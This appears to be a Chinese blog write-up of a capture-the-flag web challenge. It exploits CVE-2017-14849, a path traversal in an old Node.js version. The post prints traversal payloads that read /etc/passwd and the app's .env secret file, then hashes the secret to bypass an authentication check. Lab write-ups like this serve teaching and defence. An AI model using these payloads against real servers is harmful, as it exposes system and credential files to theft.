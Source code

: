 ```JavaScript
    app.engine('html', hbs.__express)
    app.set('view engine', 'html')

    app.get('/', (req, res) => {    res.render("index")
    })

    app.post('/', (req, res) => {    if (req.body.auth && typeof req.body.auth === 'string' && crypto.createHash('md5').update(env.parsed.secret).digest('hex') === req.body.auth ) {        res.render("index", {result: process.execSync("echo $FLAG")})    } else {        res.render("index", {result: "wrong secret"})    }
    })

    app.get('/source', (req, res) => {    res.end(fs.readFileSync(path.join(__dirname, "app.js")))
    })

    app.listen(80, "0.0.0.0"); 
```
在给出 dockerfile 中，文件内容为

    FROM node:8.5
    COPY ./src /usr/local/app
    WORKDIR /usr/local/app
    ENV FLAG=flag{**********}
    RUN npm i --registry=https://registry.npm.taobao.org
    EXPOSE 80
    CMD node /usr/local/app/app.js 

去搜索相关内容，发现了可能会存在 CVE-2017-14849 漏洞

![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9tbWJpei5xcGljLmNuL21tYml6X3BuZy8zUmh1VnlzRzlMZjQ5NXZFUzdVUXRlaWM0Z0tRZ1dTWHpMVkpSaWFGWTRraWNDcVhmWjFDcXBaWkVzWW43OVZTdklqNEtSSE96RVE0dDhIcnFBM0RBdjQzUS82NDA?x-oss-process=image/format,png)

输入 / static/../../a/../../..//etc/passwd，利用成功

![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9tbWJpei5xcGljLmNuL21tYml6X3BuZy8zUmh1VnlzRzlMZjQ5NXZFUzdVUXRlaWM0Z0tRZ1dTWHpaOTBkcU9JUEkwQjdZZExycEM0aWFlcE1IdFRNcm1oR1JDSXVpYmlhS0psc2pudmVYRUdzcDJmMWcvNjQw?x-oss-process=image/format,png)

接着去获取 secret，/static/../../a/../../../usr/local/app/.env，得到 secret=CVE-2017-14849

![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9tbWJpei5xcGljLmNuL21tYml6X3BuZy8zUmh1VnlzRzlMZjQ5NXZFUzdVUXRlaWM0Z0tRZ1dTWHpUVk9WelNxZ05aMW9EZmNYTVY3OGhCN29mZ0FhdHNSR1Z0MG42SU1mZXYxVFN2NFVyZTNHeFEvNjQw?x-oss-process=image/format,png)

根据源码中的条件

```php
if (req.body.auth && typeof req.body.auth === 'string' && crypto.createHash('md5').update(env.parsed.secret).digest('hex') === req.body.auth ) 
```

我们将 CVE-2017-14849 进行 md5 加密之后提交即可获得 flag，auth=10523ece56c1d399dae057b3ac1ad733

![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9tbWJpei5xcGljLmNuL21tYml6X3BuZy8zUmh1VnlzRzlMZjQ5NXZFUzdVUXRlaWM0Z0tRZ1dTWHowWU1qYWR6TUF2aWNpYlV6UkhZeThxUWlhektlQ3dqeDQ0V3ZEQmdrQ0tjY1A4TzFGaWJpYVA2V1RNUS82NDA?x-oss-process=image/format,png)

[](https://creativecommons.org/licenses/by-sa/4.0/)版权声明：本文为博主原创文章，遵循 [CC 4.0 BY-SA](https://creativecommons.org/licenses/by-sa/4.0/) 版权协议，转载请附上原文出处链接和本声明。

本文链接：[https://blog.csdn.net/qq_38154820/article/details/109685538](https://blog.csdn.net/qq_38154820/article/details/109685538)

 [https://www.cxybb.com/article/qq_38154820/109685538](https://www.cxybb.com/article/qq_38154820/109685538)
